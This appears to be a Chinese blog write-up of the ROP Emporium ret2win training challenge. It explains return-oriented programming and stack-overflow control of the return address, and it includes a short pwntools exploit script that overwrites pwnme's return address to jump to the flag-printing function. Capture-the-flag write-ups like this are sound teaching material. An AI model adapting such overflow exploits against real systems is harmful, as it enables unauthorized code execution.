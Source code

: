 ```yaml
---
title: ROP Emporium の ret2win
date: 2020-05-19 11:12:40
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;ROP是Return Oriented Programming（面向返回的编程）的缩写，是绕过DEP保护的攻击手段汇总。[ROP Emporium](https://ropemporium.com)是一个提供ROP练习的网站，对于理解和掌握ROP很有帮助。

<!-- more -->

## ROP链基础原理

&emsp;&emsp;根据函数调用规则，当跳转函数的时候会首先将子函数的返回地址入栈。对于被调用者来说，栈顶是返回地址，接着是自己的参数。然后，被调用者会对内存空间执行自己的操作，但是结束时会清理自己的占据的栈空间，使栈恢复到被调用之前的情况，实现栈平衡。最后被调用函数一般是以ret指令结尾，该指令将栈顶地址传递到IP寄存器，随后代码会跳转到栈顶存放的返回地址的位置。

&emsp;&emsp;rop链即是基于以上这个简单的原理，在代码空间中寻找以ret结尾的代码片段或函数（代码片段称为Rop gadgets），组合可以实现拓展可写栈空间、写入内存、shell等功能，依靠ret将代码执行权紧握在自己的手里。

## ret2win

&emsp;&emsp;ret2win是ROP Emporium提供的第一个ROP challenge，且和该网站提供的其他程序一样，分成了32位和64位的程序。这个challenge比较简单，下面简单的分析一下。

### ret2win32

#### Step 1

&emsp;&emsp;程序运行截图：

![](/img/ret2win/ret2win1.png)

&emsp;&emsp;checksec：32位程序，开启了DEP，所以需要考虑创造ROP链绕过

![](/img/ret2win/ret2win2.png)

#### Step 2

&emsp;&emsp;把程序丢到hopper disassembler里，找到一个有趣的函数pwnme，显然这里存在栈溢出：

![](/img/ret2win/ret2win3.png)

&emsp;&emsp;同时我们还发现一个很有趣的函数ret2win，通过这个函数可以直接查看flag的值：

![](/img/ret2win/ret2win4.png)

#### Step 3

&emsp;&emsp;用gdb看下这个程序，首先是main函数：

![](/img/ret2win/ret2win5.png)

&emsp;&emsp;在pwnme函数下个断点：

![](/img/ret2win/ret2win6.png)

&emsp;&emsp;可以看到此时栈顶指针ESP里存放的是0x80485d9，这是main函数call pwnme指令的下一条指令的地址。

&emsp;&emsp;所以我们的思路是将pwnme函数的返回地址覆盖为ret2win函数的入口。

&emsp;&emsp;EXP如下：

```Python
from pwn import *

sh = process('./ret2win32')
elf = ELF('./ret2win32')

shell_addr = elf.symbols['ret2win']

payload = 'a' * (0x28 + 0x4) + p32(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```

&emsp;&emsp;执行后结果：

![](/img/ret2win/ret2win7.png)

#### Appendix

&emsp;&emsp;我们把程序断在发送完payload之后，看一下此时堆栈里面的情况：

![](/img/ret2win/ret2win8.png)

&emsp;&emsp;可以看到此时当pwnme结束之后，程序将跳转到ret2win函数。这样就完成了我们预定的栈布局，可以成功的实现对程序的控制。

### ret2win64

&emsp;&emsp;这里ret2win64仅仅是偏移量不一样，然后再注意一下64位程序EBP是0x8字节长度即可。就不具体分析了。

## 总结

&emsp;&emsp;这种ROP叫做ret2text，即执行程序中已有代码，例如程序中写有system等系统的调用函数，我们就可以利用控制已有的gadgets（以ret结尾的指令序列，通过这些指令序列，可以修改某些地址的内容）控制system函数。